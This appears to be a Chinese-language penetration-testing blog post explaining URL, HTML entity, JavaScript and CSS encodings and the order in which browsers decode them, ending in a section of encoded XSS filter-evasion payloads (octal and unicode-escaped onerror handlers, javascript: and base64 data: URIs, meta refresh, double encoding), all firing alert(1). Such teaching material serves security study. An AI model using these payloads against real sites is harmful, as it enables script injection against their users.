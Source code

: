 +++
date = "2017-03-30T15:25:37+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS中的编码"
topics = ["Pentest"]

+++

![攻壳机动队](/img/anime/anime006.jpg)

### 0x00 浏览器解析
```
浏览器收到服务器发来的HTML内容，会从头解析，遇到<script></script>时，
会调用js脚本解析器来解析并执行脚本，然后继续解析其他的HTML内容，
对于需要触发才能执行的事件，当事件触发时脚本解析器才会解析其中的脚本，
在这之前它是HTML的一部分
```

### 0x01 一些编码
* URL编码
```
%+字符的ASCII编码对应的两位十六进制，如"/"的url编码为"%2F"
```

* HTML编码
    * 实体编码
    ```
    &开头分号结尾，如 "<" 的编码是 "&lt;"
    ```

    * 字符编码
    ```
    样式为"&#数值;"，数值可为10进制、16进制ASCII编码或unicode字符编码
    如"<"可编码为"&#060;"和"&#x3c;"，但是必须在属性值里面
    ```

* JS编码
```
1、两个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\x3c"
2、三个八进制数字，如果不够个数，前面补0，例如"<"编码为"\074"
3、四个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\u003c"
4、对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r）
```

* CSS编码
```
反斜线(\)后跟1~6位的16进制数字，如"e"为"\65"或"65"或"00065"
```

### 0x02 编码与解码顺序
解码时先解码最外层，编码时先编码最内层
```html
如<td onclick="openUrl(add.do?userName='{$value}');">11</td>，
首先value出现在url中，而url在js中，而js又是html一部分，所以
解码顺序为：html解码->js解码->url解码
编码顺序为：url编码->js编码->html编码
```

### 0x03 利用
* 八进制
```
<p id="test"></p>
<script type="text/javascript">
var test = "\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\61\51\76";
var p = document.getElementById('test'); #这里会进行js解码
p.innerHTML = test;
</script>
```

* 十进制和十六进制
```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)">
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

* javascript协议
```
<a href="javascript:alert(1)">xxx</a>
```

* data协议
```
<a href="data:text/html,<script>alert(1)</script>">xxxxxx</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">111</a>
<meta http-equiv="refresh" content="x;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

* html5新增实体编码
```
<a href="javasc&NewLine;ript&colon;alert(1)">aaaa</a>
```

* 多次编码
```
点击后跳转到url，进行url解码
<a href="javascript:%61lert(1)">xxxx</a>
先最外围的html解码，然后href里的url解码
<a href="j&#x0061;vascript:&#x25;61lert(1)">click me</a>
```